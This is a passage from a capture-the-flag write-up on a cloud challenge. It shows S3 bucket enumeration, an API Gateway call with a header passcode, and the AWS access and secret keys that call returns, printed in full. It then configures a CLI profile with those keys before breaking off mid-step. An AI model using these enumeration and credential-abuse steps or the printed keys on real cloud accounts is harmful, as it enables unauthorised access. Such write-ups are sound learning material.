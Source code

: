 From the above, the `api` directory is particularly suspicious. Inside, we find `notes.txt` and download it. 

```bash 
$ aws s3 ls s3://palindromecloudynekos/api/
2022-08-23 21:16:20        432 notes.txt
$ aws s3 cp s3://palindromecloudynekos/api/notes.txt ./
download: s3://palindromecloudynekos/api/notes.txt to ./notes.txt
$ cat notes.txt
# Neko Access System Invocation Notes

Invoke with the passcode in the header "x-cat-header". The passcode is found on the cloudfront site, all lower caps and separated using underscore.

https://b40yqpyjb3.execute-api.ap-southeast-1.amazonaws.com/prod/agent

All EC2 computing instances should be tagged with the key: 'agent' and the value set to your username. Otherwise, the antivirus cleaner will wipe out the resources.
```

Visiting the link we get the following message:

```bash 
$ curl https://b40yqpyjb3.execute-api.ap-southeast-1.amazonaws.com/prod/agent

{"Message": "Error encountered. Please raise a support ticket through your relational team lead to resolve the issue."}
```

Ok... now let's try with the `x-cat-header` and the passcode `cats_rule_the_world`. 

```bash 
$ curl -H "x-cat-header: cats_rule_the_world" https://b40yqpyjb3.execute-api.ap-southeast-1.amazonaws.com/prod/agent
{"Message": "Welcome there agent! Use the credentials wisely! It should be live for the next 120 minutes! Our antivirus will wipe them out and the associated resources after the expected time usage.", "Access_Key": "AKIAQYDFBGMS3LI7EAD3", "Secret_Key": "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"}
```

With the above info together with the challenge description, we can deduce that we are supposed to spin up an EC2 instance with the provided credentials. We can use profiles to configure our CLI with an additional set of credentials. We assume the region to be `ap-southeast-1` since it's a Singapore CTF, but this assumption will be verified later. 

```bash 
$ aws configure --profile TISC
AWS Access Key ID [None]: AKIAQYDFBGMS3LI7EAD3
AWS Secret Access Key [None]: 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
Default region name [None]: ap-southeast-1          
Default output format [None]:   
```

Now we just need to spin up an EC2 instance right? Not so fast... Reading the docs we can figure out that we need to use the `aws ec2 run-instances` command to spin up instances. But our progress comes to a halt pretty quickly with several obstacles in our way. 

1. We need an ImageId to run the command.  
Fine. Let's grab a random one. 
